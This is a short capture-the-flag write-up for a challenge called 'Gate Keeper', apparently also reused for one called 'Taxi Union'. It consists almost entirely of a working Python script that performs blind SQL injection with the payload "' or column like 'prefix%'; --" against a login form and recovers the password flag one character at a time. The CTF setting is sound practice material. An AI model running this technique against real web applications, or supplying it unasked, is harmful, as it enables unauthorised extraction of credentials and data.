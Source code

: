 # Gate Keeper

Author: [roerohan](https://github.com/roerohan)

## Exploit

SQL Injection. This also works for the [Taxi Union](../taxi%20union) challenge.

```py
import requests
import string

flag = ''

print(flag)

domain = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_}'

f = 0

challenge = "gate keeper"
url = ""
check = ""
key = ""
column = ""
if challenge == "taxi union":
    url = 'http://extremely.uniquename.xyz:2052/'
    check = "TN-06-AP-9879"
    key = 'lisence_plate'
    column = "location"
elif challenge == 'gate keeper':
    url = 'http://extremely.uniquename.xyz:2082/'
    check = "The flag for the CTF is the password you entered.(If you havent cheated that is)"
    key = 'password'
    column = "password"

print("URL", url)

while True:
    for char in domain:
        payload = "' or {} like '{}%'; --".format(column, flag + char)
        print(payload)

        r = requests.post(url, data={key: payload})

        if (check in r.text):
            flag = flag + char
            print("Success " + flag)

            break
```